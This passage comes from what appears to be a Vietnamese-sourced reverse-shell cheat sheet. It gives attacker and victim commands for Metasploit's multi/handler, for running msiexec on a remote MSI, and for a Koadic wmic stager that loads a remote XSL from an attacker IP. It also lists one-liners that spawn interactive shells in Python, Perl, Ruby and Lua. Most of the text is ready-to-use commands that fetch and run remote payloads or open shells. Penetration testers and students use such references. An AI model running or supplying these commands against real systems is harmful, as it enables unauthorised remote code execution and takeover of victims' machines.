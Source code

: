 ```bash
msf exploit(multi/handler)  >  exploit
```
Victim:
```bash
msiexec  /q  /i  http://192.168.1.109/1.msi
```

#### Wmic.exe
Attacker:
[https://www.hackingarticles.in/koadic-com-command-control-framework/](https://www.hackingarticles.in/koadic-com-command-control-framework/)
```bash
git clone  //github.com/zerosum0x0/koadic
cd koadic
apt-get install python3-pip
pip3 install  -r  requirements.txt
./koadic
```
```bash
use  stager/js/wmic
set SRVHOST  192.168.1.107
run
```
Victim:
```bash
wmic os get  /FORMAT:"http://192.168.1.107:9996/g8gkv.xsl"
```

### Spawn TTY Shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```
```bash
/bin/sh -i
```
```bash
perl -e 'exec "/bin/sh";'
```
```bash
perl: exec "/bin/sh";
```
```bash
ruby: exec "/bin/sh"
```
```bash
lua: os.execute('/bin/sh')
```
## Nguồn

Tổng hợp từ khắp mọi nơi trên thế giới

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [https://nitesculucian.github.io/2018/07/15/reverse-shells-cheat-sheet/](https://nitesculucian.github.io/2018/07/15/reverse-shells-cheat-sheet/)
- [http://www.codemania.it/2018/05/04/reverse-shell-cheat-sheet/](http://www.codemania.it/2018/05/04/reverse-shell-cheat-sheet/)
- [https://netsec.ws/?p=331](https://netsec.ws/?p=331)
- [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)
- [https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)